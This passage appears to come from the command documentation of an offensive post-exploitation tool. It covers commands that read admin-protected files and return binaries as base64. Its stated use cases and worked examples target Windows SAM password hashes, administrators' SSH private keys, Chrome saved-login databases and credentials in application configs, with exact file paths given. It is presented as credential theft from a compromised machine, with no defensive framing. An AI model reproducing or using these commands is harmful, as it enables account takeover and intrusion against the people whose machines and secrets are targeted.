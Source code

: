 **Use cases:**

- Read Windows SAM/SYSTEM files for hash extraction
- Access SSH private keys in protected directories
- Read browser credential databases
- Access configuration files with sensitive data
- Extract credentials from application config files

**Examples:**

```bash
# Read Windows password hashes
priv_read_file C:\Windows\System32\config\SAM

# Read SSH private keys
priv_read_file C:\Users\Administrator\.ssh\id_rsa

# Read application configs
priv_read_file "C:\Program Files\App\config\database.xml"

# Read browser login data
priv_read_file "C:\Users\John\AppData\Local\Google\Chrome\User Data\Default\Login Data"
```

---

#### Read Admin-Protected Binary Files

```bash
priv_read_binary <file_path>
```

**What happens:**

- Reads binary files that require admin privileges
- Returns base64-encoded content for safe transmission
- Uses multiple methods:
  1. Direct binary read
  2. PowerShell binary read with base64 conversion
- Safe for executables, DLLs, database files

**Response:**

```
=== Admin Binary File Read ===
File: C:\Windows\System32\cmd.exe
Method: direct_binary_read
File Size: 289,792 bytes
Is Admin: True

Base64 Content (preview - first 200 chars):
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAA...

Full Base64 Content:
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8AAAA
[... continues with full base64 encoded binary ...]
```
